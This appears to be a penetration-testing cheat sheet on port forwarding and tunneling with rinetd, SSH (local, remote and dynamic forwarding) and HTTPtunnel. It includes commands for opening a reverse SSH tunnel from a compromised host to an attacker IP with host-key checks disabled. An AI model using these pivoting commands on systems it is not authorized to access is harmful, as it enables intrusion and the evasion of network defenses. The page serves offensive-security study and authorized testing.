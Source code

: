 # Port Forwarding & Tunneling

## Port Forwarding

### Rinetd

```
$ cat /etc/rinetd.conf
# bindadress bindport connectaddress connectport
0.0.0.0 80 <dest_ip> 80
```

### SSH

#### Local Port Forwarding

Setup from attacker:

```
ssh -N -L [bind_address:]port:target_host:target_host_port [username@relay_host]
```

#### Remote Port Forwarding

Setup from target:

```
ssh -N -R [bind_address:]port:attacker_host:attacker_host_port [username@relay_host]
```

Setup from relay:

```
ssh -N -R [bind_address:]port:target_host:target_host_port [username@attacker_host]
```

{% hint style="info" %}
Add the following to automatically accept the host key:

`-o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no"`
{% endhint %}

{% hint style="info" %}
To avoid entering a SSH password into a compromised host, use SSH keys:

`mkdir /tmp/keys`

`ssh-keygen`

And copy the public key into attacker host's authorized keys (`~/.ssh/authorized_keys`):

`from="<target`_`ip>",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa <public_key>`_` ``www-data@target`
{% endhint %}

```
ssh -f -N -R <forwarding_rule> -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa user@<attacker_ip>
```

#### Dynamic Port Forwarding

Setup from attacker: (basically setting up a proxy)

```
ssh -N -D <address to bind to>:<port to bind to> <username>@<SSH server address>
```

## Tunneling

### HTTPtunnel

Source: [http://http-tunnel.sourceforge.net/](http://http-tunnel.sourceforge.net)

Alternative: [https://www.stunnel.org/](https://www.stunnel.org)

```
# Server
hts --forward-port host:port [listen_addr:]listen_port

# Client
htc --forward-port [listen_addr]:listen_port server_addr:server_port
```
